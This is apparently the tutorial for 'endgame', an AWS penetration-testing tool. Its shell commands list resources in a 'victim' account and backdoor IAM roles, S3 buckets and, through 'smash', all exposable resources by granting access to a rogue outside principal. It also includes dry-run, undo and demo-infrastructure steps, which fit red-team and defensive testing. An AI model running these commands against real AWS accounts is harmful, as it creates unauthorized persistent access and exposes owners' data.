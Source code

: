 # Tutorial

## Step 1: Setup

* First, authenticate to AWS CLI using credentials to the victim's account.

* Set the environment variables for `EVIL_PRINCIPAL` (required). Optionally, set the environment variables for `AWS_REGION` and `AWS_PROFILE`

```bash
# Set `EVIL_PRINCIPAL` environment variable to the rogue IAM User or 
# Role that you want to give access to.
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

# If you don't supply these values, these will be the defaults.
export AWS_REGION="us-east-1"
export AWS_PROFILE="default"
```

## Step 2: Create Demo Infrastructure

This program makes modifications to live AWS Infrastructure, which can vary from account to account. We have bootstrapped some of this for you using [Terraform](https://www.terraform.io/intro/index.html). **Note: This will create real AWS infrastructure and will cost you money.**

```bash
# To create the demo infrastructure
make terraform-demo
```

## Step 3: List Victim Resources

You can use the `list-resources` command to list resources in the account that you can backdoor.

* Examples:

```bash
# List IAM Roles, so you can create a backdoor via their AssumeRole policies
endgame list-resources -s iam

# List S3 buckets, so you can create a backdoor via their Bucket policies 
endgame list-resources --service s3

# List all resources across services that can be backdoored
endgame list-resources --service all
```

## Step 4: Backdoor specific resources

* Use the `--dry-run` command first to test it without modifying anything:

```bash
endgame expose --service iam --name test-resource-exposure --dry-run
```

* To create the backdoor to that resource from your rogue account, run the following:

```bash
endgame expose --service iam --name test-resource-exposure
```

Example output:

<p align="center">
  <img src="images/add-myself-foreal.png">
</p>

## Step 5: Roll back changes

* If you want to atone for your sins (optional) you can use the `--undo` flag to roll back the changes.

```bash
endgame expose --service iam --name test-resource-exposure --undo
```

<p align="center">
  <img src="images/add-myself-undo.png">
</p>

## Step 6: Smash your AWS Account to Pieces

* Run the following command to expose every exposable resource in your AWS account.

```bash
endgame smash --service all --dry-run
endgame smash --service all
endgame smash --service all --undo
```

## Step 7: Destroy Demo Infrastructure

* Now that you are done with the tutorial, don't forget to clean up the demo infrastructure.

```bash
# Destroy the demo infrastructure
make terraform-destroy
```